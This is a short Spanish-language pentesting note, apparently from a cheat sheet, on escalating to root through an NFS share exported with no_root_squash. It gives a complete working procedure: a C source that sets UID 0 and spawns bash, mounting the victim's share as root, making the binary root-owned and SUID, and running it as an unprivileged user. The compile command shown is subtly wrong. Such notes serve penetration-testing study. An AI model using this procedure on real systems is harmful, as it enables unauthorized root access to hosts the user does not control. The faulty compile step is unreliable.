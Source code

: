 Si en los recursos compartidos por NFS está la flag no_root_squash podemos escalar privilegios explotando esta mala configuración.

Ya que si estuviese la flag root_squash, al acceder a los recursos como root, se cambiará automáticamente a nfsnobody.

1. Listamos desde la máquina donde corre servidor NFS los recursos compartidos: `cat /etc/exports`
2. Si en algún recurso tenemos la flag `no_root_squash` podemos escalar.
3. Shell.c para compilar posteriormente:
```shell-session
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

4. Lo compilamos desde usuario no privilegiado: `gcc shell.c -c shell`
5. Montamos recurso compartido en "mnt" desde otra máquina cómo root  `sudo mount -t nfs <ip_victima>:/<recurso_compartido /mnt`
6. Cambiamos el propietario del binario shell a root `chown root:root shell`
7. Activamos SUID `chmod +s shell`
8. Listo en la máquina víctima, desde usuario no privilegiado ejecutamos el binario .`/shell` y escalamos privs.